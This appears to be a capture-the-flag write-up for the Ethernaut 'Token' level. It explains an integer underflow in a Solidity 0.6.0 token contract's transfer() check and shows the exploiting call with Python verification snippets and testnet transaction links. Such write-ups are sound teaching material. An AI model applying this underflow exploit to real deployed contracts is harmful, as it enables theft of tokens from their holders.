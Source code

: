 # Token

## Objectives

The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

## Solution

This contract is using the solidity compiler version 0.6.0, therefore mathematical operations can lead to overflows. In this case, the vulnerability occurs when attempting to call the `transfer()` function:

```cs
function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
}
```

The line `require(balances[msg.sender] - _value >= 0);` checks if the user balance is larger than or equal to zero, but since balances are unsigned integers, when the number we subtract (`_value`) is larger than the wallet's balance (`balances[msg.sender]`) of the token, an overflow occurs and the wallet's balance becomes the largest unsigned integer minus the difference between these two values. 

After passing the require statement, there is another mistake where this overflowed value is assigned to the balance of `msg.sender`:

```cs
balances[msg.sender] -= _value;
```

All we have to do to exploit the contract is call the transfer function as follows:

```cs
transfer('any address except the sending address', 21)
```

From the address whose funds we want to cause the overflow on.

## How I did it

1. I called the `transfer()` function and sent 21 tokens (1 more than the original 20 to cause an overflow) to the contract address of the Token contract.

```cs
token.transfer(EthernautContractAddresses['token'], 21, _from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0x36f92045c9515a41a0abe02f0f98dbcb1b11b1b30cf09f55f029393426fe8662

2. Check that we have actually caused an overflow by checking if our balance is above 20.

```python
amount_assertion = token.balanceOf(acc.address) > 20
print(f'Does address {acc.address} have more than 20 tokens?: {amount_assertion}')
```


### Submission transaction

Block explorer: https://rinkeby.etherscan.io/tx/0x50dacc40fa0b3e919a98709ae45ac9efcb9c6d4bb2ec5248176b0aefa158c58a
